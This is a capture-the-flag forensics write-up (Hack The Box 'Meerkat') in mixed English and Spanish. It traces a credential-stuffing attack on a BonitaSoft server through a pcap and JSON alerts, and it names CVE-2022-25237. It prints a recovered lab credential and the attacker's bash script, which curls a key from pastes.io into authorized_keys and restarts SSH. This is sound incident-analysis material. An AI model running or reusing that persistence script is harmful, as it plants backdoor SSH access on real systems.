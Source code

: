 # Meerkat
#sherlock
#pcap
#alerts 

We are given a .json and a .pcap


To search the name of the application thats running in the Business Management Platform server we can search inside the json

Here we can find the name is `BonitaSoft`

In the .pcap we can see a lot of HTTP post petitions which have different usernames and passwords so we can be facing `Credential stuffing`

In the first alert that we see the BonitaSoft name we have the corresponding CVE `CVE-2022-25237`

after reading about that CVE we realize the attacker must try to access a certain PATH in the HTTP request, after just 2 POST requests, we can find the special path in the third one `i18ntranslation`

Si aplicamos el siguiente filtro en wireshark podemos ver el número de intentos realizados con diferentes credenciales `http.request.method and http.request.uri contains "loginservice"` un total de 56

El usuario y la contraseña exitosos deben ser los últimos por orden temporal si consultamos el último HTTP POST a ese endpoint encontramos

username: seb.broom@forela.co.uk
password: g0vernm3nt

`seb.broom@forela.co.uk:g0vernm3nt`

we can see that after the attacker enters succesfully the machine via SSH he starts doing queries to a text sharing site called `pastes.io`

a little bit after the first DNS request to pastes.io we can see a HTTP get with some js which has the following command inside `[Path with value: /cmd:bash bx5gcr0et8]`. Now we can search the paste that the attacker used by going to `https://pastes.io/bx5gcr0et8`

The content is 

```
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

The MD5 is `0dc54416c346584539aa985e9d69a98e`

Inside the previous content we find `https://pastes.io/raw/hffgra4unv` which has the public ssh key used by the attacker
`curl https://pastes.io/raw/hffgra4unv > key`
The key hash is `dbb906628855a433d70025b6692c05e7`

The modified file to win persistence is `/home/ubuntu/.ssh/authorized_keys`

The associated MITTRE to this persistence mechanism is the `T1098.004`